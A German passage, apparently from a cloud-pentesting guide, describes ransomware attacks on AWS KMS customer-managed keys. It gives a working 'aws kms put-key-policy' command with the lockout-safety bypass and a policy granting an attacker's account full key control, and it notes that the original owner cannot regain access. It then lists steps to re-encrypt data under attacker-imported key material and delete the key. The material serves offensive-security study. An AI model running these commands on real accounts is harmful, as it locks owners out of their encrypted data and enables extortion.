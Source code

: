 Ein Angreifer mit privilegiertem Zugriff auf KMS könnte die KMS policy von Schlüsseln ändern und **seinem Account Zugriff darauf gewähren**, wodurch der Zugriff für den rechtmäßigen Account entfernt wird.

Dann können die Benutzer des rechtmäßigen Accounts nicht mehr auf Informationen eines beliebigen Dienstes zugreifen, die mit diesen Schlüsseln verschlüsselt wurden, wodurch ein einfaches, aber effektives ransomware gegen den Account entsteht.

> [!WARNING]
> Beachte, dass **AWS managed keys nicht betroffen sind** von diesem Angriff; betroffen sind nur **Customer managed keys**.

> Beachte außerdem, dass der Parameter **`--bypass-policy-lockout-safety-check`** verwendet werden muss (das Fehlen dieser Option in der Webkonsole macht diesen Angriff nur über die CLI möglich).
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
> [!CAUTION]
> Beachte, dass wenn du diese Policy änderst und nur einem externen Account Zugriff gewährst, und dann von diesem externen Account versuchst, eine neue Policy zu setzen, um **den Zugriff wieder dem ursprünglichen Account zu gewähren, wirst du das nicht können, da die Put Polocy-Aktion nicht von einem Cross-Account ausgeführt werden kann**.

<figure><img src="../../../images/image (77).png" alt=""><figcaption></figcaption></figure>

### Generische KMS Ransomware

Es gibt eine weitere Möglichkeit, eine globale KMS Ransomware durchzuführen, die die folgenden Schritte umfasst:

- Erstelle einen neuen **Schlüssel mit Schlüsselmaterial**, das vom Angreifer importiert wurde
- **Ältere Daten erneut mit der neuen Version verschlüsseln**, die zuvor mit der vorherigen Version verschlüsselt wurden
- **KMS-Schlüssel löschen**
- Nun könnte nur noch der Angreifer, der das ursprüngliche Schlüsselmaterial besitzt, in der Lage sein, die verschlüsselten Daten zu entschlüsseln

